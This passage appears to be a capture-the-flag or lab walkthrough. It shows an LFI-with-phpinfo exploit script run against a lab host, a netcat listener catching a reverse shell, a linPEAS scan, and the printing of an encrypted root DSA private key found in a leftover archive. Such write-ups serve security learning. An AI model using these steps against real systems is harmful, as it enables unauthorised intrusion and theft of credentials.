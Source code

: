 
Afeter doing this we can execute the script:

```
python2.7 phpinfolfi.py 192.168.1.22 80
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 111432
Spawning worker pool (10)...
  20 /  1000
Got it! Shell created in /tmp/g

Woot!  \m/
Shuttin' down...

```

And we are inside of the machine:

```
nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.21] from (UNKNOWN) [192.168.1.22] 54450
www-data@e71b67461f6c:/var/www/html$ whoami
whoami
www-data
www-data@e71b67461f6c:/var/www/html$ 
```

## Privilege Escalation

We started with an exhaustive scan of the machine, listing SUID permissions, capabilities, processes etc but found nothing at this point we tried using linPEAS to perform a much more exhaustive scan:

Link: [githubLink](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

And we found the following:

```
╔══════════╣ Unexpected in root
/.dockerenv
/core
/.oldkeys.tgz
```

A file old.key.tgz that we unzip and we can see the root ssh keys:

```
www-data@e71b67461f6c:/dev/shm$ ls
oldkeys.tgz  root  root.pub
www-data@e71b67461f6c:/dev/shm$ file *
oldkeys.tgz: gzip compressed data, last modified: Mon Apr 27 10:18:58 2020, from Unix, original size 10240
root:        PEM DSA private key
root.pub:    OpenSSH DSA public key
www-data@e71b67461f6c:/dev/shm$ cat root
-----BEGIN DSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2037F380706D4511A1E8D114860D9A0E

ds7T1dLfxm7o0NC93POQLLjptTjMMFVJ4qxNlO2Xt+rBqgAG7YQBy6Tpj2Z2VxZb
uyMe0vMyIpN9jNFeOFbL42RYrMV0V50VTd/s7pYqrp8hHYWdX0+mMfKfoG8UaqWy
gBdYisUpRpmyVwG1zQQF1Tl7EnEWkH1EW6LOA9hGg6DrotcqWHiofiuNdymPtlN+
it/uUVfSli+BNRqzGsN01creG0g9PL6TfS0qNTkmeYpWxt7Y+/R+3pyaTBHG8hEe
zZcX24qvW1KY2ArpSSKYlXZw+BwR5CLk6S/9UlW4Gls9YRK7Jl4mzBGdtpP85a/p
fLowmWKRmqCw2EH87mZUKYaf02w1jbVWyjXOy8SwNCNr87zJstQpmgOISUc7Cknq
JEpv1kzXEVJCfeeA1163du4RFfETFauxALtKLylAqMs4bqcOJm1NVuHAmJdz4+VT
GRSmO/+B+LNLiGJm9/7aVFGi95kuoxFstIkG3HWVodYLE/FUbVqOjqsIBJxoK3rB
t75Yskdgr3QU9vkEGTZWbI3lYNrF0mDTiqNHKjsoiekhSaUBM80nAdEfHzSs2ySW
```